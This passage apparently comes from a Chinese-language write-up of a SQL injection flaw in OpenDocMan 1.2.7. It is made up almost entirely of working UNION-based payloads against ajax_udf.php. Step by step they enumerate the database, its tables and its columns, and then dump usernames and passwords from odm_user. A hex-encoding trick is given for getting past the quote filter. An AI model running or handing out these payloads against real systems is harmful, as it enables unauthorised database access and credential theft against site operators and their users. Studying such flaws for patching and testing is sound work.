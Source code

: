 ```bash
searchsploit OpenDocMan 1.2.7

//payload
http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
```

[![](assets/1704158282-23ff91f5b4858131e3d5c134dc03a3f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010436-2e499c30-a5a3-1.png)

<2> 住的注意的是，后端做了过滤单引号，可以使用十六进制编码表示表名

```bash
<1> 库名
?q=1&add_value=odm_user%20UNION%20SELECT%201,database(),3,4,5,6,7,8,9

<2> 表名
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()

<3> 列名（后端做了过滤，可以用 16 进制编码表示表名）
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572 and table_schema=database()

<4> 数据
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(concat(username,0x5e,password)),3,4,5,6,7,8,9 from odm_user
```
